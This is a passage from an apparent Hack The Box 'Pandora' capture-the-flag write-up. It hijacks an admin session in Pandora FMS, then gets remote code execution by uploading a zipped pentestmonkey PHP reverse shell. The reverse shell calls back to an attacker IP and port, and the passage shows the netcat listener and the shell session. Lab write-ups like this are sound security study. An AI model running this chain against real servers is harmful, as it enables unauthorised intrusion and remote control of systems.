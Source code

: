 So we have session values for ```admin``` also

Other tables look like less interesting

Cracking the ```matt``` password hash did not work, seems like we have to move on with the session values

![Image](https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/Pandora/pics/4.png)

After injecting the session of ```admin``` and reloading it displays a dashboard

![Image](https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/Pandora/pics/5.png)

So we have done ```session hijacking``` for ```admin``` user

Since we are able to access Admin Tools in the dashboard, we can have RCE by uploading ```PHP reverse shell``` as zip which is mentioned in this [exploit video](https://portswigger.net/daily-swig/multiple-vulnerabilities-in-pandora-fms-could-trigger-remote-execution-attack)

Using ```pentester monkey PHP reverse shell```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ head shell.php         
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.5';  // CHANGE THIS
$port = 9876;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
                                                                                                                                                             
┌──(kali㉿aidenpearce369)-[~]
└─$ zip shell.zip shell.php 
  adding: shell.php (deflated 60%)
```

After uploading this zip, try to load the file manager page to execute this shell

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ nc -nlvp 9876                   
listening on [any] 9876 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.136] 59936
Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 17:51:13 up  2:56,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
daniel   pts/0    10.10.14.5       16:16   12:56   0.18s  0.18s -bash
uid=1000(matt) gid=1000(matt) groups=1000(matt)
/bin/sh: 0: can't access tty; job control turned off                                     
$whoami                                                
matt 
$ id
uid=1000(matt) gid=1000(matt) groups=1000(matt)
$ cd /home/matt
$ cat user.txt
<USER FLAG>
```
